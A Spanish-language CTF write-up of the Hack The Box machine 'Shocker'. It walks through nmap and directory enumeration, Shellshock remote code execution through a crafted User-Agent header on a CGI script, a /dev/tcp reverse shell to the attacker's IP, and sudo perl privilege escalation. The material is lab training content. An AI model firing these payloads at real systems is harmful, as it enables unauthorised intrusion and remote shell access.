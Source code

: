 ```yaml
---
layout: post
title:  "OSCP Path ~ Shocker de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada SHOCKER siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, ShellShock, RCE, CGI-BIN, Maquinas Retiradas, Writeup, Hacking
---
```


# Shocker ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.10.10.56 -oG allports        "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Procedemos a Fuzzear para encontrar las diferentes rutas a nivel web que pueda tener la maquina victima. Usamos la herramienta `DIRB`
```bash
# dirb http://10.10.10.56                                   

-----------------

START_TIME: Sat Jun 12 12:19:55 2021
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
"+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)  "                                                                                                                            
"+ http://10.10.10.56/index.html (CODE:200|SIZE:137) "                                                                                                                           
"+ http://10.10.10.56/server-status (CODE:403|SIZE:299)   "                                                                                                                      
                                                                                                                                                                               
-----------------
END_TIME: Sat Jun 12 12:25:47 2021
DOWNLOADED: 4612 - FOUND: 3

```
Vemos que nos encuentra una ruta con nombre `/cgi-bin/`
Usamos la herramienta `dirsearch` para hacer un segundo Fuzzing con diferentes extensiones.

```bash
# dirsearch -u http://10.10.10.56/cgi-bin -e sh,txt,php,html -f -t 200                                                                                              130 ⨯ 1 ⚙

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: sh, txt, php, html | HTTP method: GET | Threads: 200 | Wordlist size: 42323

Output File: /root/.dirsearch/reports/10.10.10.56/cgi-bin_21-06-12_12-35-06.txt

Error Log: /root/.dirsearch/logs/errors-21-06-12_12-35-06.log

Target: http://10.10.10.56/cgi-bin/
[12:35:06] Starting:
..
[12:35:43] 200 -  118B  - "/cgi-bin/user.sh"
```
Encontramos un recurso en bash, vamos a probar a apuntarle desde nuestra terminal con una peticion `CURL`
```Bash
# curl -X GET "http://10.10.10.56/cgi-bin/user.sh"                                                                                                                       18 ⨯
Content-Type: text/plain

Just an uptime test script

 07:14:39 up  2:11,  0 users,  load average: 0.00, 0.00, 0.00
```
Nos especifica que el script esta usando el comando uptime para ir actualizando el tiempo de la maquina mientras este activa (Es Dinamico)
Aqui nosotros si hemos escuchado hablar sobre la Vulnerabilidad llamada `ShellShock`, podemos intuir que los tiros pueden ir por ahi..
Aqui dejo el articulo informativo sobre la vulnerabilidad `"https://blog.cloudflare.com/inside-shellshock/"` 

# Shellshock como Vulnerabilidad (RCE)

Procedemos a explotar la vulnerabilidad encontrada en la maquina `SHOCKER`
Ejecutamos el comando `/bin/bash -c 'cat /etc/passwd'` para ver si obtenemos Ejecucion Remota de Comandos
```bash
# curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```
Una vez verificado la vulnerabilidad!!
Procedemos a intentar enviarnos una Reverse-shell a nuestro equipo desde la maquina victima explotando la vulnerabilidad ShellShock
```bash
# curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.15.13/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh

```
Nos ponemos a la escucha con una session de `netcat` y ejecutamos el comando por arriba para ver si recibimos la conexion.
```bash
# nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.56] 43304
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
shelly@Shocker:/usr/lib/cgi-bin$ ^Z
zsh: suspended  nc -vlnp 443

# Hacemos un tratamiento de la tty para que sea interactiva
┌──(root💀kali)-[/home]
└─# stty raw -echo; fg                                                                                                                                                148 ⨯ 1 ⚙
[1]  + continued  nc -vlnp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
shelly@Shocker:/usr/lib/cgi-bin$ export TERM=xterm
shelly@Shocker:/usr/lib/cgi-bin$ export SHELL=bash
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ ^C
shelly@Shocker:/usr/lib/cgi-bin$ 
```
Vale ahora faltaria setear las rows y columns segun nuestra tty para que tenga la mismas proporciones.

Una vez dentro si nos dirigimos al directorio /home/shelly/user.txt podriamos ver la flag:
```bash
shelly@Shocker:/$ cd home
shelly@Shocker:/home$ ls
shelly
shelly@Shocker:/home$ cat shelly/*
fd3834f5565767551d05x0550xxxxxxx
```

# Escalada de Privilegios hasta el user Root

Procedemos a enumerar el sistema con los siguientes comandos:
```bash
shelly@Shocker:/var$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: "/usr/bin/perl"
```
Apartir de aqui hacemos una busqueda en la pagina de GTFOBins y encontramos que con el commando perl podemos spawnearnos una shell, y como podemos usar el comando como SUID ya estaria
- GTFOBins - https://gtfobins.github.io/gtfobins/perl/
```bash
shelly@Shocker:/var$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
# whoami
root
# cat roo*
2754c7de9b01e33009bb75xxxxxxxxx
``` 
Ya tendriamos la flag de `root.txt`. Maquina Rooteada!!


